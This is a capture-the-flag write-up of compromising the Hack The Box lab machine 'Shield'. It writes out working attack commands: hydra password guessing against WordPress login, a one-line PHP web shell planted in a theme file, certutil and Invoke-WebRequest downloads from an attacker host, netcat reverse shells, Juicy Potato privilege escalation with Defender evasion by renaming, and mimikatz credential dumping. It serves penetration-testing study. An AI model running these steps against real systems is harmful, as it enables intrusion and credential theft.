




# Shield: 10.10.10.29

## Hints

- Getting web admin access is all about reused creds from other Starting Point machines
- Getting a web shell revolves around the usual WordPress authenticated code execution methods
- Privesc is focused on a well known vegetable privesc tool

## nmap

Starting with the usual `nmap` scan. Interesting ports:

```none
80/tcp   open  http    Microsoft IIS httpd 10.0
3306/tcp open  mysql   MySQL (unauthorized)
```

## 80: Recon

Checking port 80 - loaded the default Internet Information Services (IIS) landing page.



From the `nmap` output, we can see that this is IIS version 10.0. Started running a `gobuster` with my usual arguments.

```none
└─$ gobuster dir -t 20 -u http://10.10.10.29 -w ~/SecLists/Discovery/Web-Content/directory-list-2.3-medium.txt -o gobuster_80_root_medium.log
```

Quickly found the `/wordpress` directory and a WordPress site.



Had a browse around the site. Noticed a couple of posts by the `admin` user. Not much else happening. In the background, had `wpscan` running to try to find some WordPress vulnerabilities.

```none
wpscan --url http://10.10.10.29/wordpress/ --detection-mode aggressive --request-timeout 30 -eu
```

Got some decent output from `wpscan` including the `admin` confirmed as a valid user. And that the WordPress version was 5.2.1 - which `wpscan` identified as vulnerable. However, searching for exploits did not provide many good vulnerabilities.

```none
└─$ searchsploit wordpress 5.2.1                                                                              127 ⨯
---------------------------------------------------------------------------------- ---------------------------------
 Exploit Title                                                                    |  Path
---------------------------------------------------------------------------------- ---------------------------------
WordPress Core < 5.2.3 - Viewing Unauthenticated/Password/Private Posts           | multiple/webapps/47690.md
WordPress Core < 5.3.x - 'xmlrpc.php' Denial of Service                           | php/dos/47800.py
WordPress Plugin DZS Videogallery < 8.60 - Multiple Vulnerabilities               | php/webapps/39553.txt
WordPress Plugin iThemes Security < 7.0.3 - SQL Injection                         | php/webapps/44943.txt
WordPress Plugin Link Library 5.2.1 - SQL Injection                               | php/webapps/17887.txt
WordPress Plugin Rest Google Maps < 7.11.18 - SQL Injection                       | php/webapps/48918.sh
---------------------------------------------------------------------------------- ---------------------------------
```

The only interesting exploits found in the search were against plugins, and not the core WordPress software. Moving on.

Given that we don't have any good WordPress exploits, and that we know the WordPress username... it seems like password guessing is our best option. This also seems like a continual trend in the Starting Point machines. If you have followed my other Starting Point writeups - you would have noticed we are continually saving creds from each machine. Time to fire up `hydra`, with the following command.

```none
└─$ hydra -l admin -P ../creds/passwords 10.10.10.29 http-post-form "/wordpress/wp-login.php:log=^USER^&pwd=^PASS^&wp-submit=Log+In&redirect_to=http%3A%2F%2F10.10.10.29%2Fwordpress%2Fwp-admin%2F&testcookie=1:incorrect"
```

I constructed the HTTP form part of the `hydra` command by intercepting a login attempt from the website. This is good practice and has worked well for me in the past - compared to Googling a tutorial and using that to form a command. The intercept a request method is good, as the input or format of requests may change between releases.

Looks like this was the correct method, as we found a password quickly.

```none
Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2021-07-28 07:50:05
[DATA] max 7 tasks per 1 server, overall 7 tasks, 7 login tries (l:1/p:7), ~1 try per task
[DATA] attacking http-post-form://10.10.10.29:80/wordpress/wp-login.php:log=^USER^&pwd=^PASS^&wp-submit=Log+In&redirect_to=http%3A%2F%2F10.10.10.29%2Fwordpress%2Fwp-admin%2F&testcookie=1:incorrect
[80][http-post-form] host: 10.10.10.29   login: admin   password: P@s5w0rd!
1 of 1 target successfully completed, 1 valid password found
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2021-07-28 07:50:13
```

Success! And got the WordPress admin console!



## Editing WordPress Theme for Code Execution

With `admin` access to WordPress, there are many options to trigger remote code execution. In this machine, I tried the manipulation of a WordPress theme to get code execution. In the admin console, navigate to `Appearance > Theme Editor`. Under the `Select theme to edit` I choose `Twenty Nineteen`. In the `Theme File` panel, selected the `404.php` page.

From here, we can add in some malicious PHP code, and save the file. Later we can navigate to the modified PHP file and get remote code execution. The code I entered was at the start of the `404.php` file, and was the following line:

```none
<?php system($_REQUEST["cmd"]) ?>
```

Then saved the file using the "Update File" button. All looks good... but navigating to a maliciously edited file does not work?! And a blank page is displayed. I used the following URL to access the page:

```none
http://10.10.10.29/wordpress/wp-content/themes/twentynineteen/404.php?cmd=whoami
```

I thought this was unusual, as this method has worked for me before. After a little digging, I discovered that the modified page was returning a 500 HTTP response code - `Internal Server Error`. I found this in the Firefox dev tools, and the same in Burp. I then used the KISS principle - Keep It Simple Stupid. Removed all the content on the `404.php` page, and just put in my code:

```none
<?php system($_REQUEST["cmd"]) ?>
```

And reloaded the target URL:

```none
http://10.10.10.29/wordpress/wp-content/themes/twentynineteen/404.php?cmd=whoami
```

Success! Command execution. But unsure why this worked and the other approach didn't? Maybe the theme is broken somehow?



From here the goal is to get a reverse shell - so we can make some progress. I set up Burp, and caught a request to the server. Then started to try to get a foothold. After some trial and error, the approach I used was to upload netcat, and get a reverse shell that way. Mainly because I couldn't get a PowerShell reverse shell working. First, leverage `certutil.exe` to upload a `nc.exe` binary. This was hosted using a Python HTTP server (`python3 -m http.server 8000`). Then form a request to upload `nc.exe` to the target.

```none
cmd=certutil.exe -urlcache -f http://10.10.14.51:8000/nc.exe nc.exe
```

Make sure to URL encode. This web server is picky and didn't like any weird characters - including spaces. Then, verify that `nc.exe` was uploaded:

```none
http://10.10.10.29/wordpress/wp-content/themes/twentynineteen/404.php?cmd=dir
```

And finally, make a connection back to the attacker's machine:

```none
cmd=nc.exe -e powershell.exe 10.10.14.51 9001
```

At this point, we could have used `cmd.exe` as well - but it makes sense to use PowerShell for flexibility. Also, make sure to URL encode the payload in Burp. This web server is picky. And... Success!

```none
└─$ nc -lvnp 9001
listening on [any] 9001 ...
connect to [10.10.14.51] from (UNKNOWN) [10.10.10.29] 54745
Windows PowerShell 
Copyright (C) 2016 Microsoft Corporation. All rights reserved.

PS C:\inetpub\wwwroot\wordpress\wp-content\themes\twentynineteen> whoami
whoami
nt authority\iusr
```

## Privesc Enumeration

At this stage, I always know what sort of system we are dealing with. The `systeminfo` command provides some useful information, and revealed that we had a Windows Server 2016 target.

```none
C:\inetpub\wwwroot\wordpress\wp-content\themes\twentyseventeen>systeminfo
systeminfo

Host Name:                 SHIELD
OS Name:                   Microsoft Windows Server 2016 Standard
OS Version:                10.0.14393 N/A Build 14393
OS Manufacturer:           Microsoft Corporation
OS Configuration:          Member Server
OS Build Type:             Multiprocessor Free
Registered Owner:          Windows User
Registered Organization:   
Product ID:                00376-30000-00299-AA303
Original Install Date:     2/4/2020, 12:58:01 PM
System Boot Time:          7/11/2021, 3:31:53 AM
System Manufacturer:       VMware, Inc.
System Model:              VMware7,1
System Type:               x64-based PC
Processor(s):              1 Processor(s) Installed.
                           [01]: AMD64 Family 23 Model 1 Stepping 2 AuthenticAMD ~2000 Mhz
BIOS Version:              VMware, Inc. VMW71.00V.13989454.B64.1906190538, 6/19/2019
Windows Directory:         C:\Windows
System Directory:          C:\Windows\system32
Boot Device:               \Device\HarddiskVolume2
System Locale:             en-us;English (United States)
Input Locale:              en-us;English (United States)
Time Zone:                 (UTC-08:00) Pacific Time (US & Canada)
Total Physical Memory:     2,047 MB
Available Physical Memory: 1,082 MB
Virtual Memory: Max Size:  2,431 MB
Virtual Memory: Available: 1,418 MB
Virtual Memory: In Use:    1,013 MB
Page File Location(s):     C:\pagefile.sys
Domain:                    MEGACORP.LOCAL
Logon Server:              N/A
Hotfix(s):                 N/A
Network Card(s):           1 NIC(s) Installed.
                           [01]: vmxnet3 Ethernet Adapter
                                 Connection Name: Ethernet0 2
                                 DHCP Enabled:    No
                                 IP address(es)
                                 [01]: 10.10.10.29
                                 [02]: fe80::9176:2c10:3b01:cf0f
                                 [03]: dead:beef::9176:2c10:3b01:cf0f
Hyper-V Requirements:      A hypervisor has been detected. Features required for Hyper-V will not be displayed.
```

While looking into other things, ran some winPEAS in the background.

```none
certutil.exe -urlcache -f http://10.10.14.51:8000/peas.exe peas.exe
```

Got some WordPress credentials in the winPEAS output - could be useful for a later Starting Point machine... or this one!

```none
    'C:\inetpub\wwwroot\wordpress\wp-config.php' - content:
// ** MySQL settings - You can get this info from your web host ** //
/** The name of the database for WordPress */
define('DB_NAME', 'wordpress124');
/** MySQL database username */
define('DB_USER', 'wordpressuser124');
/** MySQL database password */
define('DB_PASSWORD', 'P_-U9dA6q.B|');
/** MySQL hostname */
define('DB_HOST', 'localhost');
```

The winPEAS tool is awesome as it reports on Windows exploits using Watson. So it is kind of like getting two tools in one. Below is a condensed list of discovered CVEs.

```none
[!] CVE-2019-0836 : VULNERABLE
[!] CVE-2019-1064 : VULNERABLE
[!] CVE-2019-1130 : VULNERABLE
[!] CVE-2019-1315 : VULNERABLE
[!] CVE-2019-1388 : VULNERABLE
[!] CVE-2019-1405 : VULNERABLE
[!] CVE-2020-0668 : VULNERABLE
[!] CVE-2020-0683 : VULNERABLE
[!] CVE-2020-1013 : VULNERABLE
```

Also ran [Windows Exploit Suggester - Next Generation (WES-NG)](https://github.com/bitsadmin/wesng). I always waste time reading the instructions - so documenting the general process for next time I need it.

```none
git clone https://github.com/bitsadmin/wesng.git
cd wesng
python3 wes.py --update
python3 wes.py <systeminfo-file>
```

## Privesc Juicy Potato

After looking at all my enumeration it seemed like Juicy Potato was a potential option. I have not used Juicy Potato much, and this article on [Impersonating Privileges with Juicy Potato](https://medium.com/r3d-buck3t/impersonating-privileges-with-juicy-potato-e5896b20d505) was really helpful.

Started by checking if we had the right privilege.

```none
PS C:\inetpub\wwwroot\wordpress\wp-content\themes\twentynineteen> whoami /priv
whoami /priv

PRIVILEGES INFORMATION
----------------------

Privilege Name          Description                               State  
======================= ========================================= =======
SeChangeNotifyPrivilege Bypass traverse checking                  Enabled
SeImpersonatePrivilege  Impersonate a client after authentication Enabled
SeCreateGlobalPrivilege Create global objects                     Enabled
```

Note that `SeImpersonatePrivilege` is enabled. Then downloaded the newest release from the [juicypotato GitHub page](https://github.com/ohpe/juicy-potato/releases/tag/v0.1).

```none
wget https://github.com/ohpe/juicy-potato/releases/download/v0.1/JuicyPotato.exe
```

Start a webserver on my attacker's machine, to get the file on the target. Added options for `certutil.exe` and PowerShell, as I keep forgetting the PowerShell syntax!

```none
certutil.exe -urlcache -f http://10.10.14.51:8000/JuicyPotato.exe JuicyPotato.exe
Invoke-WebRequest -Uri http://10.10.14.51:8000/JuicyPotato.exe -OutFile JuicyPotato.exe
```

Change the name of the executable to avoid Windows Defender.

```none
mv JuicyPotato.exe js.exe
```

Viewing the help menu for Juicy Potato.

```none
PS C:\inetpub\wwwroot\wordpress\wp-content\themes\twentynineteen> .\js.exe
.\js.exe
JuicyPotato v0.1 

Mandatory args: 
-t createprocess call: <t> CreateProcessWithTokenW, <u> CreateProcessAsUser, <*> try both
-p <program>: program to launch
-l <port>: COM server listen port


Optional args: 
-m <ip>: COM server listen address (default 127.0.0.1)
-a <argument>: command line argument to pass to program (default NULL)
-k <ip>: RPC server ip address (default 127.0.0.1)
-n <port>: RPC server listen port (default 135)
-c <{clsid}>: CLSID (default BITS:{4991d34b-80a1-4291-83b6-3328366b9097})
-z only test CLSID and print token's user
```

We need the CLSID (Class ID) for the server. The options are:

- Use the default value in Juicy Potato
- Look up a [list of Windows CLSID](https://github.com/ohpe/juicy-potato/blob/master/CLSID/README.md) from the Juicy Potato authors
- Run a PowerShell script to list CLSIDs

I choose the last option, for some fun! The authors provide the script, so I downloaded it to my machine, and transferred it to the target.

```none
wget https://github.com/ohpe/juicy-potato/raw/master/CLSID/GetCLSID.ps1
```

And download the script on the target.

```none
Invoke-WebRequest -Uri http://10.10.14.51:8000/GetCLSID.ps1 -OutFile GetCLSID.ps1
```

Then run it.

```none
.\GetCLSID.ps1
```

The script is kind of unusual, as it creates a folder of the target system, then dumps `.csv` and `.list` files containing the CLSIDs. In this case, it created a folder named `Windows_Server_2016_Standard`. Looking at the file contents.

```none
PS C:\inetpub\wwwroot\wordpress\wp-content\themes\twentynineteen\Windows_Server_2016_Standard> type CLSID.list
type CLSID.list
{03ca98d6-ff5d-49b8-abc6-03dd84127020}
{42CBFAA7-A4A7-47BB-B422-BD10E9D02700}
{8C482DCE-2644-4419-AEFF-189219F916B9}
{8B4B437E-4CAB-4e83-89F6-7F9F7DF414EA}
{0A886F29-465A-4aea-8B8E-BE926BFAE83E}
{1BE1F766-5536-11D1-B726-00C04FB926AF}
{35b1d3bb-2d4e-4a7c-9af0-f2f677af7c30}
{375ff002-dd27-11d9-8f9c-0002b3988e81}
{D3DCB472-7261-43ce-924B-0704BD730D5F}
{145B4335-FE2A-4927-A040-7C35AD3180EF}
{E0F55444-C140-4EF4-BDA3-621554EDB573}
{5C03E1B1-EB13-4DF1-8943-2FE8E7D5F309}
{000C101C-0000-0000-C000-000000000046}
{BA126AD8-2166-11D1-B1D0-00805FC1270E}
{A47979D2-C419-11D9-A5B4-001185AD2B89}
{854A20FB-2D44-457D-992F-EF13785D2B51}
{F0FF8EBB-F14D-4369-BD2E-D84FBF6122D6}
{B6C292BC-7C88-41EE-8B54-8EC92617E599}
{A1F4E726-8CF1-11D1-BF92-0060081ED811}
{F9A874B6-F8A8-4D73-B5A8-AB610816828B}
{4661626C-9F41-40A9-B3F5-5580E80CB347}
{3c6859ce-230b-48a4-be6c-932c0c202048}
{0fb40f0d-1021-4022-8da0-aab0588dfc8b}
{BFE18E9C-6D87-4450-B37C-E02F0B373803}
{7D1933CB-86F6-4A98-8628-01BE94C9A575}
{02ECA72E-27DA-40E1-BDB1-4423CE649AD9}
{97061DF1-33AA-4B30-9A92-647546D943F3}
{9A3E1311-23F8-42DC-815F-DDBC763D50BB}
{84C22490-C68A-4492-B3A6-3B7CB17FA122}
{119817C9-666D-4053-AEDA-627D0E25CCEF}
{8BC3F05E-D86B-11D0-A075-00C04FB68820}
{30766BD2-EA1C-4F28-BF27-0B44E2F68DB7}
{9B1F122C-2982-4e91-AA8B-E071D54F2A4D}
```

I found this a little cumbersome, so I rewrote the `GetCLSID.ps1` script to output the results to the console - instead of creating a folder and writing two files. This seems like a better approach in a real-world pentest and is more convenient. The script is available in the `exploits` folder.

Next, make a file `rev.bat` file to start a reverse shell back to the attacker's machine. This is the program we will as Juicy Potato to execute.

```none
printf 'START C:\\inetpub\\wwwroot\\wordpress\\wp-content\\themes\\twentynineteen\\nc.exe -e powershell.exe 10.10.14.51 9001' > rev.bat
```

Note that we should already have a `nc.exe` file on the server from earlier. Start the usual Python `http.server` and, from the target, fetch the batch file.

```none
Invoke-WebRequest -Uri http://10.10.14.51:8000/rev.bat -OutFile rev.bat
```

We are finally ready, run Juicy Potato with the required arguments.

```none
cmd /c "js.exe -p rev.bat -l 9001 -t * -c {42CBFAA7-A4A7-47BB-B422-BD10E9D02700}"
```

Success! A reverse shell with SYSTEM access.

```none
└─$ nc -lvnp 9001
listening on [any] 9001 ...
connect to [10.10.14.51] from (UNKNOWN) [10.10.10.29] 55870
Windows PowerShell 
Copyright (C) 2016 Microsoft Corporation. All rights reserved.

PS C:\Windows\system32> whoami
whoami
nt authority\system
```

I kind of went around in circles getting Juicy Potato to work. I was a little tired and missed some obvious stuff, but still worth documenting.

- Watch out for backslashes in the `rev.bat` script. I ended up using `printf` and single quotes to populate the `rev.bat` file, but other solutions such as `echo` may behave differently. Check the file before uploading!
- The `rev.bat` script must have the full path (AFAIK) for the `nc.exe` binary.
- Batch scripts are weird and should have `START` before a command. Weird!
- Rename `JuicyPotato.exe` to something else, like `js.exe`. Otherwise, it might get caught by Windows Defender.
- I kept getting errors about arguments when running directly from PowerShell. Either spawn a `cmd.exe` or wrap the Juicy Potato in `cmd /c "<juicy-command-here>"` - just like I did in my writeup.

Done! And I can close 50 browser tabs!

## Post Exploitation

Not going to lie! Missed the important creds in the post-exploitation phase, and came back to get access to the machine. In the official writeup, they used `mimikatz` to extract some credentials. Did the usual upload of the file.

```none
Invoke-WebRequest -Uri http://10.10.14.51:8000/mimikatz.exe -OutFile m.exe
```

And ran the `sekurlsa::logonpasswords` to get the following creds.

- Username: `sandra`
- Password: `Password1234!`

## Lessons Learned

- When using a new exploit, such as Juicy Potato, do lots of research on the first encounter. Makes life much easier in the future.
- Watch out for typos and `echo`ing content into files. Check before upload!
- Make one change at a time, check, then try something else.

## Useful Resources

- Check the official/non-official walkthroughs on Hack The Box website
